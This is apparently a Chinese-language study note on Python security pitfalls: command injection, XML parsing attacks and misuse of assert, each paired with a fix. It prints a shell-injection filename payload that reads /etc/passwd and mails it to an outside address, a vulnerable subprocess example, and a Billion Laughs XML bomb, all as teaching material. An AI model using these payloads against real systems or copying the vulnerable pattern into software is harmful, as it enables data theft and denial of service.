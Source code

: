 # Common Security Gotchas
[10 common security gotchas in Python and how to avoid them](https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03)

<br>

## 1. 输入注入攻击
--------

输入注入可以发生在下面两种情况

* SQL查询, [SQL injection cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* 命令执行, [Dangerous Python Functions](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)

原因都是没有对输入的数据进行 **“escaping quotes”** 处理，比如下面的视频转码的接口

```
    import subprocess

    def transcode_file(request, filename):
        command = 'ffmpeg -i "{source}" output_file.mpg'.format(source=filename)
        subprocess.call(command, shell=True) # 危险
```

攻击的点就在于，没有对filename做输入验证和处理，如果攻击者传入如下字符串，那就危险了
```
    "; cat /etc/passwd | mail them@domain.com
```

解决办法:
    
* 使用工具对数据的数据进行检查, 对于上述的shell命令，可以用python包 shelx 进行 **escape input** 处理


## 2. 解析XML
--------

xml的攻击有很多种，可以看这个包的说明: [defusedxml](https://pypi.org/project/defusedxml/)

其中的一种攻击叫 "Billion Laughs":

解析一个很小的xml文件可能造成上G的内存占用，比如下面的文件
```
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
```
当执行解析上面的代码时，消耗的大量的内存 和 cpu (手动kill，没有等它执行完毕)

![Alt text](resource/1.1.jpg)

<br>

在有一种常用攻击就是XEE攻击

可以直接执行任何命令


解决办法:
    
* 使用defusedxml进行xml的操作


## 3. assert 语句
--------

assert只有在python运行在debug模式下才会生效，如果启用-O时，会忽略这样的判断，如下是python文档中的描述

所以尽量不要用assert来判断

>These equivalences assume that __debug__ and AssertionError refer to the built-in variables with those names. In the current implementation, the built-in variable __debug__ is True under normal circumstances, False when optimization is requested (command line option -O).
